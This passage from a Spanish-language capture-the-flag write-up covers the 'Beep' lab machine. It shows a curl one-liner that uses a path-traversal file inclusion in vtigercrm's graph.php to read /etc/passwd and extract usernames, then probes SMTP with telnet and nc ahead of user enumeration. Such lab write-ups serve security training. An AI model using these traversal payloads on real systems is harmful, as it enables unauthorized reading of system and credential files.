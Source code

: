 ```shell
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
Sorry! Attempt to access restricted file.
```

Filtremos los nombres de usuario y guardémoslos en un archivo:

```shell
❯ curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action" | grep bash | cut -d ':' -f 1 > users.txt
❯ cat users.txt
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: users.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ root
   2   │ mysql
   3   │ cyrus
   4   │ asterisk
   5   │ spamfilter
   6   │ fanis
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

## SMTP - Port TCP 25

Podemos utilizar telnet para conectarnos a SMTP:

```shell
❯ telnet 10.10.10.7 25
Trying 10.10.10.7...
Connected to 10.10.10.7.
Escape character is '^]'.
220 beep.localdomain ESMTP Postfix # < wait for this
```

Alternativamente, podemos utilizar nc:

```shell
❯ nc -nv 10.10.10.7 25
(UNKNOWN) [10.10.10.7] 25 (smtp) open
220 beep.localdomain ESMTP Postfix # < wait for this
```

### SMTP User Enumeration

Podemos validar que los usuarios que tienen un `email` en SMTP:
